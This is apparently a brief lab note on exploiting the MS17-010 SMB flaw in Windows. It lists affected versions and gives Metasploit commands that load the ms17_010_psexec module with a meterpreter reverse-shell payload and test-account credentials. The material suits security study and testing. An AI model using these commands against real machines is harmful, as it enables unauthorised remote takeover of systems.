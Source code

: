 
MS17-010  |  SMB Remote Windows Code Execution

https://www.youtube.com/watch?v=JHmGibFL6p8

--------------

MS17-010 SMB Remote Windows Code Execution
https://www.cvedetails.com/cve/cve-2017-0143
https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_psexec

--------------

This module will exploit SMB with vulnerabilities in MS17-010 to achieve a write-what-where primitive. This will then be used to overwrite the connection session information with as an Administrator session.

Affected Windows OS:

    Microsoft Windows 10
    Microsoft Windows 8.1
    Microsoft Windows 7 SP1
    Microsoft Windows Server 2008 R2
    Microsoft Windows Server 2012 R2
    Microsoft Windows Server 2016

--------------

1. For testing purposes, we need to create a new user account

Username: Test
Password: Test123$%^

2. Exploit
```
> use exploit/windows/smb/ms17_010_psexec

> set payload windows/meterpreter/reverse_tcp

> set SMBUser Test
> set SMBPass Test123$%^

> exploit
```
--------------
